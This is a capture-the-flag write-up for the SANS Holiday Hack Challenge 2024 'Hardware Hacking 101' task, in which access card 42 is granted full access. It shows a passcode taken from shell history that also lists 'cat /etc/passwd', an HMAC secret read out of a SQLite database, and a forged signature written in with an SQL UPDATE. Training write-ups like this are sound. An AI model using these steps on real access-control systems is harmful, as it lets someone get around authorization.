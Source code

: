 +++ 
draft = false
date = 2025-01-19T16:19:30+01:00
title = "HHC24 - Hardware Hacking 101"
description = "A simple hardware terminal application enhanced by database and hashing exploitation"
slug = ""
authors = []
tags = [
    "HHC24",
    "Sans",
    "CTF",
]
categories = [
    "Writeup",
    "Hardware",
    "Databases",
    "Hashing",
    "ReverseEngineering",
]
externalLink = ""
series = [
    "HHC24",
]
+++


## Objective

We need to access the terminal and modify the access database. We're looking to grant access to card number 42.

``` bash
--------------------------------------------------------
                   ___     _      _  _   
                  / __|   | |    | || |  
                  \__ \   | |__  | __ |  
                  |___/   |____| |_||_|  
                _|"""""|_|"""""|_|"""""| 
                "`-0-0-'"`-0-0-'"`-0-0-' 
--------------------------------------------------------
  Santa's Little Helper - Access Card Maintenance Tool

          Tool Name: slh

options:
  -h, --help            show this help message and exit
  --view-config         View current configuration.
  --view-cards          View current values of all access cards.
  --view-card ID        View a single access card by ID.
  --set-access ACCESS_LEVEL
                        Set access level of access card. Must be 0 (No Access) or 1 (Full Access).
  --id ID               ID of card to modify.
  --passcode PASSCODE   Passcode to make changes.
  --new-card            Generate a new card ID.
--------------------------------------------------------
```

- History command revealed following information:

```bash
   1  cd /var/www/html
    2  ls -l
    3  sudo nano index.html
    4  cd ..
    5  rm -rf repo
    6  sudo apt update
    7  sudo apt upgrade -y
    8  ping 1.1.1.1
    9  slh --help
   10  slg --config
   11  slh --passcode CandyCaneCrunch77 --set-access 1 --id 143
   12  df -h
   13  top
   14  ps aux | grep apache
   15  sudo systemctl restart apache2
   16  history | grep ssh
   17  clear
   18  whoami
   19  crontab -e
   20  crontab -l
   21  alias ll='ls -lah'
   22  unalias ll
   23  echo "Hello, World!"
   24  cat /etc/passwd
   25  sudo tail -f /var/log/syslog
   26  mv archive.tar.gz /backup/
   27  rm archive.tar.gz
   28  find / -name "*.log"
   29  grep "error" /var/log/apache2/error.log
   30  history
```

- Card ID 143 content:

```bash
slh --view-card 143

(143, 'fa9717e8-e1af-42e9-ad68-eeb96ab39d13', 0, '728f25dda2ef6168ada53065883756140cfe663bce4e827084b745a32255157d')
```

- According to documentation, the full access is **1**, but the card with ID 143 has value **0**.
- To finish the objective for broz, following command needs to be executed:

```bash
 slh --passcode CandyCaneCrunch77 --set-access 1 --id 42 
```

- **SUCCESS**

```powershell

       *   *   *   *   *   *   *   *   *   *   *
   *                                             *
*      ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄     *
 *  $$$$$$\   $$$$$$\   $$$$$$\  $$$$$$$$\  $$$$$$\   $$$$$$\  * 
  * $$  __$$\ $$  __$$\ $$  __$$\ $$  _____|$$  __$$\ $$  __$$\ *
   *$$ /  $$ |$$ /  \__|$$ /  \__|$$ |      $$ /  \__|$$ /  \__| *
    $$$$$$$$ |$$ |      $$ |      $$$$$\    \$$$$$$\  \$$$$$$\   
   *$$  __$$ |$$ |      $$ |      $$  __|    \____$$\  \____$$\  *
  * $$ |  $$ |$$ |  $$\ $$ |  $$\ $$ |      $$\   $$ |$$\   $$ | *
*   $$ |  $$ |\$$$$$$  |\$$$$$$  |$$$$$$$$\ \$$$$$$  |\$$$$$$  |   *
 *  \__|  \__| \______/  \______/ \________| \______/  \______/  *
*         *    ❄             ❄           *        ❄    ❄    ❄   *
   *        *     *     *      *     *      *    *      *      *
   *  $$$$$$\  $$$$$$$\   $$$$$$\  $$\   $$\ $$$$$$$$\ $$$$$$$$\ $$$$$$$\  $$\  *
   * $$  __$$\ $$  __$$\ $$  __$$\ $$$\  $$ |\__$$  __|$$  _____|$$  __$$\ $$ | *
  *  $$ /  \__|$$ |  $$ |$$ /  $$ |$$$$\ $$ |   $$ |   $$ |      $$ |  $$ |$$ |*
  *  $$ |$$$$\ $$$$$$$  |$$$$$$$$ |$$ $$\$$ |   $$ |   $$$$$\    $$ |  $$ |$$ | *
 *   $$ |\_$$ |$$  __$$< $$  __$$ |$$ \$$$$ |   $$ |   $$  __|   $$ |  $$ |\__|*
  *  $$ |  $$ |$$ |  $$ |$$ |  $$ |$$ |\$$$ |   $$ |   $$ |      $$ |  $$ |   *
*    \$$$$$$  |$$ |  $$ |$$ |  $$ |$$ | \$$ |   $$ |   $$$$$$$$\ $$$$$$$  |$$\ *
 *    \______/ \__|  \__|\__|  \__|\__|  \__|   \__|   \________|\_______/ \__|  *
  *                                                            ❄    ❄    ❄   *
   *      *    *    *    *    *    *    *    *    *    *    *    *    *    *    
```

## Gold

- Elf says now: *"There’s a tougher route if you're up for the challenge to earn the Gold medal. It involves directly modifying the database and generating your own HMAC signature."*

- Playing around the command, the --new-card has generated following output:

```bash
slh@slhconsole\> slh --new-card
Generate new card with uuid: f8aae97c-8345-4684-84fe-d50b9f7b5a3d
```

- As the Elf said, need to modify the database, so let's check file type of access_cards:

```bash
file access_cards 

access_cards: SQLite 3.x database, last written using SQLite version 3040001, file counter 4, database pages 32, cookie 0x2, schema 4, UTF-8, version-valid-for 4
```

- We will use **sqllite3** tool available in the challenge console.

```bash
sqllite3 access_access_cards
```

### Database

- 2 tables:
  - access_cards
  - config

```bash
sqlite> .tables
access_cards  config 
```

- Reveal content of databases:

```SQL
SELECT * FROM config
1|hmac_secret|9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e
2|hmac_message_format|{access}{uuid}
3|admin_password|3a40ae3f3fd57b2a4513cca783609589dbe51ce5e69739a33141c5717c20c9c1
4|app_version|1.0
```

- Let's check content of Access Card 42:

```SQL
SELECT * FROM access_cards LIMIT 1 OFFSET 41;
42|c06018b6-5e80-4395-ab71-ae5124560189|0|ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```

- Now we know know all needed information:
  - HMAC secret
  - HMAC format
  - The card NO. which need to be modified (42).
  - Needed access level: **FULL (1)**

- **Hint:** We got hint from previous challenge that we need to use HMAC to sign the card signature:

  - In CyberChef I used following recipe: 
  <https://gchq.github.io/CyberChef/#recipe=HMAC(%7B'option':'UTF8','string':'9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e'%7D,'SHA256')&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ>

  - Modifying the access level (1) for card 42:

```SQL
sqlite> UPDATE access_cards SET access = 1, sig = '135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' WHERE id = 42;
```

```powershell
       *   *   *   *   *   *   *   *   *   *   *
   *                                             *
*      ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄     *
 *  $$$$$$\   $$$$$$\   $$$$$$\  $$$$$$$$\  $$$$$$\   $$$$$$\  * 
  * $$  __$$\ $$  __$$\ $$  __$$\ $$  _____|$$  __$$\ $$  __$$\ *
   *$$ /  $$ |$$ /  \__|$$ /  \__|$$ |      $$ /  \__|$$ /  \__| *
    $$$$$$$$ |$$ |      $$ |      $$$$$\    \$$$$$$\  \$$$$$$\   
   *$$  __$$ |$$ |      $$ |      $$  __|    \____$$\  \____$$\  *
  * $$ |  $$ |$$ |  $$\ $$ |  $$\ $$ |      $$\   $$ |$$\   $$ | *
*   $$ |  $$ |\$$$$$$  |\$$$$$$  |$$$$$$$$\ \$$$$$$  |\$$$$$$  |   *
 *  \__|  \__| \______/  \______/ \________| \______/  \______/  *
*         *    ❄             ❄           *        ❄    ❄    ❄   *
   *        *     *     *      *     *      *    *      *      *
   *  $$$$$$\  $$$$$$$\   $$$$$$\  $$\   $$\ $$$$$$$$\ $$$$$$$$\ $$$$$$$\  $$\  *
   * $$  __$$\ $$  __$$\ $$  __$$\ $$$\  $$ |\__$$  __|$$  _____|$$  __$$\ $$ | *
  *  $$ /  \__|$$ |  $$ |$$ /  $$ |$$$$\ $$ |   $$ |   $$ |      $$ |  $$ |$$ |*
  *  $$ |$$$$\ $$$$$$$  |$$$$$$$$ |$$ $$\$$ |   $$ |   $$$$$\    $$ |  $$ |$$ | *
 *   $$ |\_$$ |$$  __$$< $$  __$$ |$$ \$$$$ |   $$ |   $$  __|   $$ |  $$ |\__|*
  *  $$ |  $$ |$$ |  $$ |$$ |  $$ |$$ |\$$$ |   $$ |   $$ |      $$ |  $$ |   *
*    \$$$$$$  |$$ |  $$ |$$ |  $$ |$$ | \$$ |   $$ |   $$$$$$$$\ $$$$$$$  |$$\ *
 *    \______/ \__|  \__|\__|  \__|\__|  \__|   \__|   \________|\_______/ \__|  *
  *                                                            ❄    ❄    ❄   *
   *      *    *    *    *    *    *    *    *    *    *    *    *    *    *         
```
